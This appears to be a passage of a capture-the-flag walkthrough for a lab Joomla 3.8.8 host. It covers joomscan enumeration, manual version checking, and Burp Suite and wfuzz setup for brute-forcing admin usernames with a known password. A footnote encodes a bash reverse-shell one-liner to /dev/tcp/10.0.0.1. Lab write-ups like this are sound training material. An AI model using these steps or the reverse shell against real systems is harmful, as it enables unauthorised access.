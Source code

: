 	joomscan -ec -url 10.129.171.59 | tee joomscan.out

```text
[+] Detecting Joomla Version
[++] Joomla 3.8.8

[+] admin finder
[++] Admin page : http://10.129.171.59/administrator/

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.129.171.59/administrator/components
http://10.129.171.59/administrator/modules
http://10.129.171.59/administrator/templates
http://10.129.171.59/images/banners
```

### Verify Joomla! version by manual enumeration

	10.129.171.59/administrator/manifests/files/joomla.xml

```html
<copyright>
(C) 2005 - 2018 Open Source Matters. All rights reserved
</copyright>

<version>3.8.8</version>
```


	https://www.google.com/search?q=joomla+changelog+3.8.8

At the time this Walkthrough was published there were no Joomla! 3.8.8 core exploits public. However, the following query today yields public exploits.
- https://www.youtube.com/watch?v=Lqehvpe_djs&list=PLidcsTyj9JXJrgTzRYdwnUhUThb9bL9py&index=8
https://www.google.com/search?q=joomla+core+vulnerabilities [^1] [^2]

### Intercept traffic using burpsuite

1. Enable Proxy => Intercept is on
2. Use Burp's embedded browser.
3. Browse to 10.129.171.59/administrator
4. Forward until login page is loaded.
5. Set username to FUZZ
6. Set password to Curling2018!
7. Click Login
8. Copy cookie and post data:

		99fb082d992a92668ce87e5540bd20fa=omf6d7fp9a02939ooeqahd5dnl
		
		username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&d36732e30d0405ece8d5e1e1e343928b=1

###  Bruteforce username using wfuzz and a custom wordlist

	wfuzz -h


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency